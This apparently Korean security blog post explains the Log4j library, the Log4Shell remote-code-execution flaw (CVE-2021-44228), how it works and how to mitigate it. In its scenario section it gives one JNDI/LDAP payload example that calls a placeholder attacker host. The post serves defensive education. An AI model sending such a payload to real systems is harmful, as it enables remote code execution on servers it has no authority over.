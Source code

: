```yaml
---
title: "[Security - Vulnerability] Log4j 취약점"
date: 2025-01-11 00:34:00 +0900
categories:
  - Security
  - Vulnerability
tags:
  - Security
  - Vulnerability
---
```


# Chapter 1. Log4j 취약점
#### 1. Log4j
#### 1-1. Log4j 란?
- Apache Software Foundation에서 개발한 Java 기반의 라이브러리
- Java 애플리케이션에서 로그 데이터를 생성, 필터링, 출력하는 데 사용

<br>
##### 1-2. 주요기능
- 다양한 로그 레벨 지원
- 콘솔, 파일, 원격 서버 등의 다양한 대상에 로그를 저장 가능
- 사용자 정의 로그 포맷 지원
- 성능 최적화 - 비동기 로깅을 지원하여 애플리케이션 성능에 영향을 최소화
- 플러그인 아키텍처를 통해 확장 가능

<br>
##### 1-3. 역할
- 애플리케이션에서 발생하는 이벤트 기록
- 문제 해결을 위한 디버깅 정보 제공
- 애플리케이션 모니터링 및 성능 분석에 유용한 데이터 수집

<br>
#### 2. Log4j의 취약점 및 원리
##### 2-1. 취약점
- 2021년 12월, Log4j 2.x 버전에서 발생한 **Log4Shell**(CVE-2021-44228)이라는 치명적인 취약점이 공개
- **리모트 코드 실행(RCE)** 을 허용하여 공격자가 원격에서 악의적인 코드를 실행

<br>
##### 2-2. 원리
- Log4j는 로그 메시지를 처리하는 과정에서 JNDI(Java Naming and Directory Interface)를 통해 원격 서버에 액세스
- 특정 입력 값이 포함된 로그 메시지가 처리되면, Log4j는 JNDI를 통해 악의적인 LDAP 서버에 연결하고, 공격자가 제어하는 코드를 실행

<br>
##### 2-3. 작동 메커니즘
- 사용자가 제공한 입력 값(예: HTTP 헤더, 사용자 이름 등)에 악의적인 페이로드 삽입
- Log4j가 해당 입력 값을 로그에 기록하며 JNDI 조회를 수행
- 원격 LDAP 서버로 연결하여 악성 코드를 다운로드하고 실행

<br>
##### 2-4. 시나리오
- 웹 애플리케이션에서 사용자 입력을 로그에 기록할 경우, 공격자는 페이로드를 포함한 값을 입력하여 원격 코드를 실행
- HTTP 요청 헤더의 `User-Agent` 필드에 페이로드를 삽입
	- 예시 - `${jndi:ldap://attacker.com/a}`
- Log4j가 이를 처리하면서 악성 LDAP 서버와 통신하여 악성 코드를 실행

<br>
##### 2-5. 영향
- **리모트 코드 실행(RCE)**
	- 공격자는 서버에서 임의의 코드를 실행할 수 있음
- **데이터 유출**
	- 민감한 데이터가 외부로 유출될 위험
- **랜섬웨어 배포**
	- 공격자가 랜섬웨어를 설치하여 시스템을 잠그고 금전을 요구할 수 있음
- **서비스 중단**
	- 시스템이 제어를 잃고 운영 불가능 상태에 빠질 수 있음

<br>
#### 3. 취약점 완화 및 대응
- **패치 적용**
	- Apache에서 제공하는 최신 Log4j 버전(2.17.1 이상)으로 즉시 업데이트
	- Log4j 1.x는 이 취약점에 영향을 받지 않으나, 더 이상 유지 보수되지 않으므로 최신 버전으로 마이그레이션 권장
- **구성 변경**
	- JNDI 조회 비활성화
		- `log4j2.formatMsgNoLookups=true` 속성을 활성화
		- 시스템 프로퍼티, 환경 변수 또는 구성 파일을 통해 설정 가능
	- `JndiLookup` 클래스 제거
		- `zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class`
- **네트워크 보안 강화**
	- 외부 LDAP 서버와의 연결 차단
	- 방화벽 규칙을 업데이트하여 의심스러운 트래픽 차단
	- IDS/IPS(침입 탐지/방지 시스템)를 사용하여 비정상적인 JNDI 호출 탐지
- **모니터링 및 탐지**
	- 시스템 로그를 정기적으로 점검하여 JNDI 관련 의심스러운 호출 확인
	- 보안 솔루션을 사용하여 취약점 악용 시도를 탐지
- **대체 솔루션 검토**
	- Log4j 외의 다른 로깅 프레임워크(예: SLF4J, Logback) 사용을 고려
	- 오픈소스 라이브러리에 대한 보안 지원 및 커뮤니티 활동 확인
